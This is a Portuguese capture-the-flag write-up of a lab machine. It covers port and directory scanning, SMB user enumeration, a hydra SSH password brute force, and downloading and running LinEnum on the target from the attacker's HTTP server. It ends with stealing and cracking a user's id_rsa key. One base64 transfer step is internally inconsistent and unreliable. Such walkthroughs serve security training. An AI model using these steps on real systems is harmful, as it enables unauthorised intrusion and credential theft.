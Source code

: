 # Basic Pentesting
![](basic_pentesting.jpg)

## _**Enumeração***_
Vamos começar com um simples scan nmap para a descoberta de serviços e portas  
> ```bash
> nmap -p 0-10000 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Para descobrir o diretório escondido, vamos utilizar a ferramenta <mark>Gobuster</mark> e o comando abaixo
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
Em pouco tempo, temos o seguinte resultado:  

![](scan_gobuster.jpg)  

Vamos investigar um destes diretórios  

![](_development.jpg)

Este é o diretório escondido no endereço
Acessando os dois arquivos _.txt_, temos o seguinte em cada um:
Primeiro → dev.txt  

![](dev_txt.jpg)  

Segundo → j.txt  

![](j_txt.jpg)

Sabemos pelo scan nmap e pela segunda mensagem no _.txt_ que a senha é fraca e o serviço utilizado é o <mark>SMB</mark>  
Podemos tentar enumerar este serviço com a ferramenta <mark>enum4linux</mark>  

![](enum4linux.jpg)

Nomes importantes descobertos:
* -K → <mark>kay</mark>
* -J → <mark>jan</mark>

Vamos tentar um ataque de força bruta contra o usuário _**jan**_
> ```bash
> hydra -l jan -P ../wordlists/rockyou.txt ssh://[ip_address]
> ```
![](hydra_bruteforce.jpg)

Achamos a senha!  
Vamos conectar via SSH neste usuário  
Existe uma ferramenta que facilita a escalação de privilégios, <mark>LinEnum</mark>, vamos realizar o download e transferi-la para a máquina alvo  

Primeiro passo (máquina host):
> ```bash
> curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
> ```
> ```bash
> chmod +x LinEnum.sh
> ```
> ```bash
> sudo python3 -m http.server 80
> ```

Segundo passo (máquina alvo):
> ```bash
> wget http://[vpn_ip]/LinEnum.sh
> ```

Permissão negada!  
Porém, ainda tem mais uma tática  
Para isto, vamos utilizar base 64  

Primeiro passo (novamente) (máquina host):
> ```bash
> curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
> ```
> ```bash
> chmod +x LinEnum.sh
> ```
> ```bash
> base64 LinEnum.sh > lin.b64
> ```
> ```bash
> sudo python3 -m http.server 80
> ```

Segundo passo (máquina alvo):
> ``` bash
> wget http://[vpn_ip]/LinEnum.sh -O /tmp/lin.b64
> ```
> ``` bash
> cd /tmp
> ```
> ``` bash
> base64 -d lin.b64 > LinEnum.sh
> ```
> ``` bash
> chmod +x LinEnum.sh
> ```
> ``` bash
> ./LinEnum.sh
> ```

Sucesso!  

![](linEnum.jpg)

Identificamos que kay é um usuário privilegiado  
Vamos navegar em seu <mark>/home</mark>  

![](priv_user.jpg)

Vamos verificar o conteúdo de .ssh  

![](ssh_conf.jpg)  

Um arquivo muito importante está ali, id_rsa. Vamos verificar seu conteúdo  

![](id_rsa_file.jpg)

Copiando o arquivo para a nossa máquina, vamos usar o <mark>John the Ripper</mark> para quebrar esta hash e realizar login via ssh no usuário kay, obtendo a resposta de senha  

![](ssh_with_john.jpg)
